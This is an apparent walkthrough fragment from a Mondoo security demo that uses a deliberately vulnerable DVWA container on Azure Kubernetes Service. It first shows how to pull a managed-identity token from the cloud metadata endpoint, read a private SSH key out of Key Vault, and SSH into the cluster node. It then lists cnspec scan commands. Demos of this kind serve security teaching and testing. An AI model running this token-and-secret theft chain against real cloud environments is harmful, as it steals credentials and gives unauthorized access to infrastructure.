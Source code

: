 Get the token and query for the key:value

```text
TOKEN=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net" -H "Metadata: true" | jq -r ".access_token" ) && curl -vk -s -H Metadata:true --noproxy "*" 'https://keyvaultLunalectric-akic.vault.azure.net/secrets/private-ssh-key?api-version=2016-10-01' -H "Authorization: Bearer $TOKEN"
```

Extract the ssh private key and save it in `key-ssh`

```
----BEGIN RSA PRIVATE KEY-----\nMIIJKgIBAA
....
```

Fix the format of the ssh private key and the permissions

```bash
cat key-ssh |sed 's/\\n/\n/g' > new-ssh-key

chmod 600 new-ssh-key
```

Get the public IP of the AKS node

```bash
curl -4 icanhazip.com
```

Connect via ssh to the AKS node

```bash
ssh -o StrictHostKeyChecking=no -i new-ssh-key ubuntu@40.88.137.64
```

## Mondoo scan commands

### Scan kubernetes manifest

```bash
cnspec scan k8s --path ../assets/dvwa-deployment.yml
```

### Scan container image from registry

```bash
cnspec scan container docker.io/pmuench/dvwa-container-escape:latest
```

### Scan kubernetes aks cluster

```bash
cnspec scan k8s
```

### Shell to kubernetes aks cluster
